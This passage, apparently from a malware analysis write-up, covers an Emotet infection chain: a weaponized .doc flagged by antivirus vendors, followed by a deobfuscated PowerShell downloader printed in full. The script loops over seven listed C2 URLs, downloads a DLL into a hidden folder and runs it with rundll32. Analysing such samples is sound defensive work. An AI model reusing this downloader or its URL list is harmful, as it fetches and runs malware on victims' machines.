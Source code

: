**Stage 1: The Malicious Document**
The attack began with a user opening the `.doc` file.
*   **Threat Intelligence:** The file hash was definitively identified as malicious by **48 vendors on VirusTotal** and received a **100/100 score on Hybrid Analysis**. This confirms the initial vector was a weaponized document.
    <img width="1706" height="819" alt="image" src="https://github.com/user-attachments/assets/3ccbf8fe-7006-489e-a2a7-0c599a7e32d8" />
    <img width="1554" height="753" alt="image" src="https://github.com/user-attachments/assets/79eba3be-3bbc-4e26-92a3-25714cc89694" />

**Stage 2: The PowerShell Downloader**
The document's macro executed a PowerShell script designed to download the main Emotet payload. The deobfuscated script reveals its functionality:
```powershell
# Deobfuscated Emotet Downloader Script

# Suppress errors and enable modern TLS for secure downloads.
$ErrorActionPreference = "SilentlyContinue"
[System.Net.ServicePointManager]::SecurityProtocol = 'Tls12'

# Prepare a hidden directory to store the payload.
$fullDirectoryPath = $HOME + "\F2s2k3m\Jww9w_b\T"
$dllPath = Join-Path -Path $fullDirectoryPath -ChildPath "L_0E.dll"
[System.IO.Directory]::CreateDirectory($fullDirectoryPath)

# Define a resilient list of C2 servers.
$urlList = @(
    "https://decpak.com/cgi-bin/gU/",
    "https://angelslimargas.com/AUDIO/3dwm/",
    "https://gadgetbay.com/letsdeal/gdFjfQ/",
    "https://csgcaro.com/content/Gb/",
    "https://aagzza.com/wp-content/KP/",
    "https://metador.com/ALFA_DATA/BtfM8Id/",
    "https://se4turketicaret.com/wp-admin/yOl/"
)

# Loop through URLs, download the payload, and execute it.
foreach ($url in $urlList) {
    try {
        $webClient = New-Object System.Net.WebClient
        $webClient.DownloadFile($url, $dllPath)

        # Verify download and execute the DLL using a legitimate Windows tool (LOLBin).
        if ((Get-Item $dllPath).Length -ge 39163) {
            rundll32.exe $dllPath, "Control_RunDLL"
            break
        }
    }
    catch {
        # Silently continue to the next URL on failure.
    }
}
```
